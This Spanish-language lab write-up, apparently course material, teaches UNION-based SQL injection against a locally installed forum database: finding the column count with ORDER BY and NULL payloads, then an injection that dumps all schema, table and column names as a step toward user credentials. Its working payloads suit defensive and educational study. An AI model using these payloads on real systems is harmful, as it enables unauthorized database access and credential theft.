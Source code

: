 
## Previo
Tiene que ser con un phpmyadmin antiguo.
Accedemos a phpmyadmin y creamos una base de datos que se llame forum. A continuación importamos forum.sql

## Saber el número de columnas de la tabla que afecta al formulario
Para que una consulta UNION funcione, se deben cumplir dos requisitos clave:
- Las consultas individuales deben devolver el mismo número de columnas.
- Los tipos de datos de cada columna deben ser compatibles entre las consultas individuales.

Cómo determinar del número de columnas requeridas en un ataque UNION de inyección SQL:
- El primer método consiste en inyectar una serie de cláusulas ORDER BY e incrementar el índice de columna especificado hasta que se produzca un error. Por ejemplo, vamos probando hasta que obtengamos un error, en nuestro caso:
  ```
  999' or '1'='1' UNION SELECT * from articulos order by 4 #
  ```

- El segundo método consiste en enviar una serie de cargas útiles de UNION SELECT que especifican un número diferente de valores nulos. Vamos probando:
  ```
  ' UNION SELECT NULL--
  ' UNION SELECT NULL,NULL--
  ' UNION SELECT NULL,NULL,NULL–
  ```
  La aplicación podría devolver este mensaje de error, o simplemente podría devolver un error genérico o ningún resultado. Cuando el número de valores nulos coincide con el número de columnas, la base de datos devuelve una fila adicional en el conjunto de resultados, que contiene valores nulos en cada columna.


## Mostrar los usuarios y contraseñas

### Datos de todas las bases de datos, tablas y columnas de MySQL
Partimos de la consulta del [sql-injection-lab1 →](../lab1/sql-injection-lab1.md) que nos da la información de todas las bases de datos, tablas y columnas de MySQL. **El objetivo es que tenemos que conseguir introducir esta consulta para que nos de la información completa.**

Consulta SQL →
```
select information_Schema.tables.table_schema, information_Schema.columns.table_name, information_Schema.columns.column_name FROM information_Schema.columns, information_Schema.tables WHERE information_Schema.tables.table_name = information_Schema.columns.table_name;#
```

Inyección →
```
999' UNION select null, concat(information_Schema.tables.table_schema,'-->',information_Schema.columns.table_name), information_Schema.columns.column_name FROM information_Schema.columns, information_Schema.tables WHERE information_Schema.tables.table_name = information_Schema.columns.table_name;#
```
